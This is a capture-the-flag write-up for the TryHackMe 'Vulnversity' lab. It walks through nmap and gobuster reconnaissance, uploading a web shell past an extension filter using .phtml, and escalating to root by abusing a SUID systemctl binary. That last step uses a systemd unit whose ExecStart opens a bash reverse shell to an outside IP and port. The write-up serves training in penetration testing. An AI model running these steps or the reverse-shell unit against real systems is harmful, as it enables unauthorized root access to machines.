





# TryHackMe - Vulnversity

Learn about active recon, web app attacks and privilege escalation.

## Skills Learned

- Port Scanning
- Web enumeration
- File Upload Restriction Bypass
- Privilege Escalation via sudo

# Tasks

## Reconnaissance 

Reconnaissance is act of gathering information about the target. 

### Nmap

Port scan with nmap


Scan through all port

```bash
nmap -p- --min-rate 1000 -oN all-port 10.10.231.160 -v
```


Determine each service version

```bash
nmap -p21,22,139,445,3128,3333 -sC -sV -oN all-port-scan 10.10.231.160 -v
```

## Locating directories using GoBuster 

### Directory Brute Force - Gobuster

Perform a directory brute force

```bash
gobuster dir -u http://10.10.231.160:3333 -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -o discovered.txt
```


## Compromise the webserver 

### Fuzzing Allowed File Extension

Failed upon uploading a web shell to `http://machine_ip:3333/internal/index.php`, extension is not allowed


Fuzzing the file extension with BurpSuite



Used wordlist


One of the results shows different length.



Reuploading the web shell with newer extension, `phtml`



Determine upload location with directory bruteforce using `gobuster`


The upload directory located on `http://machine_ip:3333/internal/uploads/`  



Accessing the web shell returns a reverse shell.


## Privilege Escalation

Privilege escalation is act of searching potential vector such as exploit bugs, system flaws, or abusing misconfiguration to gain higher privileges (root or administrator) 

There are two types of privilege escalation:

- Horizontal Privilege Escalation, user level to another user
- Vertical Privilege Escalation, user level to super user (root/admin/system)

### Privilege Escalation with SUID binary - systemctl

> SUID (set owner userId upon execution)

The **find** command can be used to find binary with SUID bit

```bash
$ find / -type f -perm -u=s 2>/dev/null | grep -v proc
```

`systemctl` is a utility for managing system and service in Linux. With SUID bit set, it offers a potential [privesc](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740) vector.




Steps:

1. Create a root.service

   ```bash
   [Unit]
   Description=im groot
   
   [Service]
   Type=simple
   User=root
   ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/9000 0>&1'
   
   [Install]
   WantedBy=multi-user.target
   ```

2. Host and download it on the target

   

   

3. Enable root.service and start service

   ```bash
   $ /bin/systemctl enable /dev/shm/root.service
   $ /bin/systemctl start root
   ```

4. Check the listener

